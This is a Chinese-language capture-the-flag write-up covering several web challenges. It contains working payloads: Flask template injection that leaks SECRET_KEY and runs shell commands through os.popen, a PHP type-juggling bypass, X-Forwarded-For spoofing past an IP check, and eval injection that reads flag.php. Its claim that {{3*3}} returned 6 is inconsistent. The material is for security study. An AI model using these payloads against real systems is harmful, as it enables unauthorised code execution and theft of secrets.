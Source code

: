 ## Web

### Simple_SSTI_1

打开场景，提示需要构建一个参数来显示 flag

对于 flask 框架，我么可以使用以下两种方式来显示 flag

1. 显示所有编码，在里面找到 flag：`http://114.67.175.224:13009/?flag={{config.items()}}`
2. 直接显示 flask 开发中经常会用到的变量 SECRET_KEY：`?flag={{ config.SECRET_KEY}}`

<br>

### Simple_SSTI_2

利用 SSTI 漏洞，非法执行代码来获取 flag

首先测试一下是否存在 SSTI 漏洞：`?flag={{3*3}}`  
结果网页返回 6 ，表示存在 SSTI 漏洞

然后通过以下固定代码获取系统文件夹内容：  
`?flag={{ config.__class__.__init__.__globals__['os'].popen('ls ../').read() }}`

然后使用 ls 逐步勘察可能存在 flag 的文件夹，最终定位，使用 cat 查看对应文件就可以找到 flag 了！！！  
`{{%20config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20../app/flag%27).read()%20}}`

<br>

### 矛盾

> 考察 php 弱类型比较

根据以下代码得出结论，当传入的参数 num 的值不是数字且不等于 1 时，可以得到 flag

```php
$num=$_GET['num'];
if(!is_numeric($num))
{
echo $num;
if($num==1)
echo 'flag{**********}';
}
```

所以可以直接使用 1 和一对方括号来解决：`?num=1[]`

<br>

### 你必须让他停下

> 考察开发者工具的简单调试

下面是几个常见的调试操作：

1. F12 打开开发者工具，直接就可以看到 flag
2. 开发者工具修改网页内容，解除某些限制（如可输入文本长度等）
3. 有可能 flag 伪装成注释放在了 html 里面，注意看

<br>

### 本地管理员

> XXF 伪造

打开场景，F12 查看源码，发现有一段 base64 编码文本，将其解码后得到密码：`test123`

发现直接在场景输入账号 admin 加上密码登录是行不通的，IP 被拦截，此时需要 XXF 伪造地址

打开 BP，开启拦截，输入账号密码后点击登录，自动弹出 intercept 界面  
将源码发送到 repeater 里面去

打开 repeater，在源码添加 XXF 伪造：`X-Forwarded-For: 127.0.0.1`  
然后 send，即可得到 flag

<br>

### eval

> php 使用 eval 伪造

```php
<?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```

当提供一个 hello 参数并附带文件 `flag.php` 即可得到结果

构造 URL：`?hello=file('flag.php')`

<br>

###
